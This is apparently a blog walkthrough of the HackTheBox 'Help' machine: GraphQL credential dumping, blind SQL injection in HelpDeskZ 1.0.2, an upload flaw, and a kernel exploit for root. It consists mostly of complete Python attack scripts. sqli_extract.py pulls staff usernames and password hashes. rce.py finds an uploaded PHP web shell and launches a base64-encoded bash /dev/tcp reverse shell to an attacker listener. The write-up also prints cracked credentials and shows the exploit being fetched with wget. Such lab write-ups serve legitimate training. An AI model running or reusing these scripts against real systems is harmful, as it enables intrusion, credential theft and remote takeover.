

This is an Easy box from HackTheBox. But not really too easy, I spent a good time in it.

It's OS is Linux, which is common in HackTheBox Machines.

It's exploration was through Web. We'll make a Blind SQLInjection with code review to find it and make a exploit to automate it. We can get reverse shell trough a insecure file upload. When we try to upload a php file, the app triggers an error, but the php are being uploaded anyway in other folder with other name, we can get it and execute commands on the box.

My rate for this machine is 6/10.

In the end you can find the automated script to explore this machine!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.121
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 3000

We open the browser on port 3000 to see what is it


It seems to be an API to nodejs. We start enumerating it

[GraphSQL Guide](https://www.pentestpartners.com/security-blog/pwning-wordpress-graphql/)

I will use `curl`, it's better to hit the API. Then I'll use -d '{ "query": "[query]" }' to send the query. Finally, I'll use jq to pretty see the results on the terminal.

```sh
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq  -c .

curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name } } }" }' | jq -c .

curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq .

curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq .
```


We crack it


```
helpme@helpme.com
godhelpmeplz
```

## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.


We look at the source code, nothing useful

Start enumerate it with `Gobuster` 

I'll run gobuster against the site

```sh
gobuster dir -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


We found a `/support` page, which is very interesting


Looking for the `helpdesk` on Github we see how to get it's version with commmon files in it


So it's version 1.0.2

# WhiteBox Approach

To explore this box, we will use a whitebox approach, we cheat and get a ssh connection as root to this box. To better debug it.


We enable the php error logging

```sh
sed -i 's/display_errors = Off/display_errors = On/g' php.ini
```


We enable the sql loging

```sh
sed -i 's/#general_log/general_log/g' mysqld.cnf
/etc/init.d/mysql restart
```


Now we see the queries reaching the box on the file **mysql.log**

```sh
sudo tail -f /var/log/mysql/mysql.log
```


Now it's better to debug it.

## Vulnerability Discovery

Now we have set the machine properly, we can start hunting for vulnerabilities in it.

First vulnerability we always look for when dealing with php (web) app is SQLInjection.

We (authenticated) start to navigate through the web application, to see how it's structured


We see that we can Submit Tickets. Always interesting when we can put some data on the server


## SQLInjection

So, we start looking for how a query is done to the MySQL

```sh
grep -lRi select
```


After looking arround the files, we find somethins interesting on the file `view_tickets_controller.php`


On line 91. Seems that the msg_id is not being sanitized.

```php
$attachment = $db->fetchRow("SELECT *, COUNT(id) AS total FROM ".TABLE_PREFIX."attachments WHERE id=".$db->real_escape_string($params[2])." AND ticket_id=".$params[0]." AND msg_id=".$params[3]);
```

We got a SQLInjection in it. Once param it's not being properly sanitized by the application.

It's authenticated, because you must get an account to download the ticket to trigger the SQLInjection.

So, we log in the application, submit a ticket and go to View Ticket


We set the Intercept to On on BurpSuite

And we get the request


On the MySQL log, we got


When we click Forward, we get it on the MySQL log, seems to be okay, an original request


Now we test to see it


We put on the end of the request the SQLInjection

`and 1=2-- -`


And we got error


Great! We got a SQLInjection without sanitization. So we can start exfiltrating data from it.

That’s a **blind injection**. I can pass some test in, and get true (downloaded attachment) or false (Whoops!) back.

For example

```
and (select (username) from staff limit 0,1) = 'admin'-- - 
```

Returns attachment, while 

```
and (select (username) from staff limit 0,1) = '0x4rt3mis'-- -
```

returns Whoops!.

Let's test it

With a valid query


With an invalid query


So, let's make a exploit to exfiltrate data from it.

We will use the same skeleton from the Arbitrary File Upload

```py
#!/usr/bin/python3

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username

    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

As the first PoC we got the version() of the mysql


sqli.py

```py
#!/usr/bin/python3
# Reference: https://www.exploit-db.com/exploits/41200
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Help
# HelpDeskz SQLInjection Authenticated

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Let's get the csrf token
def getCSRFToken(rhost):
	# Make csrfMagicToken global
	global csrf_token
	# Make the request to get csrf token
	csrf_page = r.get(login_url, verify=False, proxies=proxies)
	# Get the index of the page, search for csrfMagicToken in it
	index = csrf_page.text.find("csrfhash")
	# Get only the csrfMagicToken in it
	csrf_token = csrf_page.text[index:index+128].split('"')[2]
	if csrf_token:
		print("[+] We get the CSRF Token to login! [+]")
		return csrf_token
	else:
		print("[+] Cannot get the CSRF_TOKEN [+]")
		exit

# Let's log in on the app
def login(csrf_token,username,password):
	data = {"do": "login", "csrfhash": "%s" %csrf_token, "email": "%s" %username, "password": "%s" %password, "btn": "Login"}
	login = r.post(login_url, cookies=r.cookies, data=data, proxies=proxies)
	if "Invalid email address or password" in login.text:
		print("[+] Invalid email address or password!! [+]")
	else:
		print("[+] Login successsss!!! [+]")

# Now, let's get a ticket id
def getTicketID(rhost):
	# Make id_ticket global
	global id_ticket
	ticket_url = 'http://' + rhost + '/support/?v=view_tickets'
	# Make the request to get id_ticket
	ticket_page = r.get(ticket_url, verify=False, proxies=proxies)
	# Get the index of the page, search for csrfMagicToken in it
	index = ticket_page.text.find("param[]")
	# Get only the csrfMagicToken in it
	id_ticket = ticket_page.text[index:index+128].split('"')[0]
	id_ticket = id_ticket.split('=')[1]
	if id_ticket:
		print("[+] We get the Token ID to SQLInjection! [+]")
		return id_ticket
	else:
		print("[+] Cannot get the Token ID [+]")
		print("[+] Have you manually opened a ticket??? This is mandatory to exploit!! [+]")
		exit

# Now, let's trigger the sqlinjection to get the username
def getVersion(rhost,id_ticket):
	sqli_target = 'http://' + rhost +"/support/?v=view_tickets&action=ticket&param[]="+id_ticket+"&param[]=attachment&param[]=2&param[]=7"
	limit = 1
	char = 42
	prefix = []
	print("[+] The version of MySQL is.... [+]")
	while(char!=123):
		injection_string = " and 1=1 and ascii(substring((select version()),%d,1))= %s" %(limit,char)
		target_prefix = sqli_target + injection_string
		response = r.get(target_prefix,proxies=proxies).text
		if "couldn't find" not in response:
			prefix.append(char)
			limit=limit+1
			extracted_char = ''.join(map(chr,prefix))
			sys.stdout.write(extracted_char)
			sys.stdout.flush()
			char=42
		else:
			char=char+1
			prefix = []

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-p', '--password', help='Password for the email', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    password = args.password

    global login_url
    login_url = 'http://' + rhost + '/support/?v=login'
    '''Here we call the functions'''
    # Get the CSRF token
    getCSRFToken(rhost)
    # Try to login on the app
    login(csrf_token,username,password)
    # Let's get the id_ticket
    getTicketID(rhost)
    # Let's get the version of mysql
    getVersion(rhost,id_ticket)
    
if __name__ == '__main__':
    main()
```

Now, let's exfiltrate the username and password hash of it


sqli_extract.py

```py
#!/usr/bin/python3
# Reference: https://www.exploit-db.com/exploits/41200
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Help
# HelpDeskz SQLInjection Authenticated

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Let's get the csrf token
def getCSRFToken(rhost):
	# Make csrfMagicToken global
	global csrf_token
	# Make the request to get csrf token
	csrf_page = r.get(login_url, verify=False, proxies=proxies)
	# Get the index of the page, search for csrfMagicToken in it
	index = csrf_page.text.find("csrfhash")
	# Get only the csrfMagicToken in it
	csrf_token = csrf_page.text[index:index+128].split('"')[2]
	if csrf_token:
		print("[+] We get the CSRF Token to login! [+]")
		return csrf_token
	else:
		print("[+] Cannot get the CSRF_TOKEN [+]")
		exit

# Let's log in on the app
def login(csrf_token,username,password):
	data = {"do": "login", "csrfhash": "%s" %csrf_token, "email": "%s" %username, "password": "%s" %password, "btn": "Login"}
	login = r.post(login_url, cookies=r.cookies, data=data, proxies=proxies)
	if "Invalid email address or password" in login.text:
		print("[+] Invalid email address or password!! [+]")
	else:
		print("[+] Login successsss!!! [+]")

# Now, let's get a ticket id
def getTicketID(rhost):
	# Make id_ticket global
	global id_ticket
	ticket_url = 'http://' + rhost + '/support/?v=view_tickets'
	# Make the request to get id_ticket
	ticket_page = r.get(ticket_url, verify=False, proxies=proxies)
	# Get the index of the page, search for csrfMagicToken in it
	index = ticket_page.text.find("param[]")
	# Get only the csrfMagicToken in it
	id_ticket = ticket_page.text[index:index+128].split('"')[0]
	id_ticket = id_ticket.split('=')[1]
	if id_ticket:
		print("[+] We get the Token ID to SQLInjection! [+]")
		return id_ticket
	else:
		print("[+] Cannot get the Token ID [+]")
		print("[+] Have you manually opened a ticket??? This is mandatory to exploit!! [+]")
		exit

# Now, let's trigger the sqlinjection to get the username
def getVersion(rhost,id_ticket):
	sqli_target = 'http://' + rhost +"/support/?v=view_tickets&action=ticket&param[]="+id_ticket+"&param[]=attachment&param[]=2&param[]=7"
	limit = 1
	char = 42
	prefix = []
	print("[+] The version of MySQL is.... [+]")
	while(char!=123):
		injection_string = " and 1=1 and ascii(substring((select version()),%d,1))= %s" %(limit,char)
		target_prefix = sqli_target + injection_string
		response = r.get(target_prefix,proxies=proxies).text
		if "couldn't find" not in response:
			prefix.append(char)
			limit=limit+1
			extracted_char = ''.join(map(chr,prefix))
			sys.stdout.write(extracted_char)
			sys.stdout.flush()
			char=42
		else:
			char=char+1
			prefix = []
			

def getUsername(rhost,id_ticket):
	sqli_target = 'http://' + rhost +"/support/?v=view_tickets&action=ticket&param[]="+id_ticket+"&param[]=attachment&param[]=2&param[]=7"
	limit = 1
	char = 42
	prefix = []
	print("[+] The Username is.... [+]")
	while(char!=123):
		target_username = sqli_target + " and 1=1 and ascii(substr((select username from staff limit 0,1),"+str(limit)+",1))="+str(char)+" -- -"
		response = r.get(target_username,proxies=proxies).text
		if "couldn't find" not in response:
			prefix.append(char)
			limit=limit+1
			extracted_char = ''.join(map(chr,prefix))
			sys.stdout.write(extracted_char)
			sys.stdout.flush()
			char=42
		else:
			char=char+1
			prefix = []

def getPassword(rhost,id_ticket):
	sqli_target = 'http://' + rhost +"/support/?v=view_tickets&action=ticket&param[]="+id_ticket+"&param[]=attachment&param[]=2&param[]=7"
	limit = 1
	char = 42
	prefix = []
	print()
	print("[+] The Password is.... [+]")
	while(char!=123):
		target_username = sqli_target + " and 1=1 and ascii(substr((select password from staff limit 0,1),"+str(limit)+",1))="+str(char)+" -- -"
		response = r.get(target_username,proxies=proxies).text
		if "couldn't find" not in response:
			prefix.append(char)
			limit=limit+1
			extracted_char = ''.join(map(chr,prefix))
			sys.stdout.write(extracted_char)
			sys.stdout.flush()
			char=42
		else:
			char=char+1
			prefix = []
	print()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-p', '--password', help='Password for the email', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    password = args.password

    global login_url
    login_url = 'http://' + rhost + '/support/?v=login'
    '''Here we call the functions'''
    # Get the CSRF token
    getCSRFToken(rhost)
    # Try to login on the app
    login(csrf_token,username,password)
    # Let's get the id_ticket
    getTicketID(rhost)
    # Let's get the version of mysql
    #getVersion(rhost,id_ticket)
    # Let's get the username of it
    getUsername(rhost,id_ticket)
    # Let's get the password of it
    getPassword(rhost,id_ticket)
    
if __name__ == '__main__':
    main()
```

That's it. Let's continue exploring this box.

## Arbitrary File Upload

When analyzing the code, we also see something interesting on the submit ticket function

I noticed when we try to upload any file with the extension `.php` the server triggers a error message

So, we started looking for this message error on the source code


```sh
grep -lRi "File is not allowed"
```

We found where it's being defined


So we see how it's being called on the code


Found two archives which call this function. Maybe we should take a closer look at the submit, to understand how it works.


We reach it.


Let's analyze it.

> Lines 137 - 139

Checks to see if the the attachment exists and set the variable `$uploaddir` to UPLOAD_DIR/tickets/, which is where the files will be send

> Lines 140 - 143

Set more variables.

On line 140 seems to be getting the extension of the file

On line 141 it's making the hash md5 of the filename + epoch time() and adding the extension to the end.

On line 143, set the variable `$uploadedfile`, which is the path + archive

> Lines 144 - 147

On line 144, it moves the file to the dir. If not moved on line 146 show a error message

> Lines 148 - 161

The important part is this message error on line 156. The message we got on the web.

What we can conclude?

The file is being uploaded, even the error message been shown to us.

The name of the file will be `UPLOAD_DIR/tickets/HASHED.php`

So we can make a script to get it working and achieve some malicious php code on it.

Here the archive we "upload" before


And here the code execution


Because of the Captcha, we cannot automate the upload part, what is really boring. But we can reproduce the steps after get it.

There are several [CVEs](https://www.exploit-db.com/exploits/40300) already set to this vulnerability, you can look them and be happy. I'll try to make it to learn how to explore this kind of vulnerability.

We will use our skeleton script to start mouting our functions to trigger it


rce.py

```py
#!/usr/bin/python3
# Date: 2021-09-07
# Exploit Author: 0x4rt3mis
# Hack The Box - Help
# Reference: https://www.exploit-db.com/exploits/40300

import argparse
import requests
import sys
import datetime
import time
import hashlib
import socket, telnetlib
from threading import Thread
import threading
import base64
import urllib.parse

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

# You must upload manually a file on the server with the content
# <?php system($_REQUEST["cmd"]); ?>
# After it, run the python script, to get it working and get a reverse shell on the box
# Example: python3 rce.py -t 10.10.10.121 -f cmd.php -lport 5555 -lip 10.10.14.14

'''Here come the Functions'''

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    url = 'http://' + rhost
    b = r.get(url)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    
# Now Let's iterate to see if we can get it there and execute
def getArchive(filename,rhost,currentTime):
    for x in range(0, 300):
        plaintext = filename + str(currentTime - x)
        md5hash = hashlib.md5(plaintext.encode()).hexdigest()
        global url_reverse
        url_reverse = 'http://' + rhost + '/support/uploads/tickets/' + md5hash + '.php'
        response = requests.head(url_reverse,proxies=proxies)
        if response.status_code == 200:
            print("[+] The php was FOUND! Let's GET RCE [+]")
            break

# Once we find the correct file, we need to get a reverse shell on the box with the simple cmd
def getRevShell(localip,lport,url_reverse):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(localip,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    r.get(url_reverse, params=payload_str, proxies=proxies, cookies=r.cookies)
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='Filename you just Uploaded', required=True)
    parser.add_argument('-lport', '--localport', help='Local port to receive the connection', required=True)
    parser.add_argument('-lip', '--localip', help='Local IP to receive the connection', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    filename = args.file
    lport = args.localport
    localip = args.localip
    '''Here we call the functions'''
    # Start the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Let's get the currenttime
    getCurrentTime(rhost)
    # Now, let's get the uploaded php
    getArchive(filename,rhost,currentTime)
    # Trigger the reverse shell
    getRevShell(localip,lport,url_reverse)
if __name__ == '__main__':
    main()
```

# Help --> root

Now, let's get root on this box. We've already played a lot with it.

It's kernel

```sh
uname -a
```


```sh
searchsploit 4.4.0-116
```


We send it to the Help machine

```sh
searchsploit -m 44298
```


```sh
wget 10.10.14.20/44298.c
```


And we got root

```sh
gcc 44298.c -o exp
chmod +x exp
./exp
```

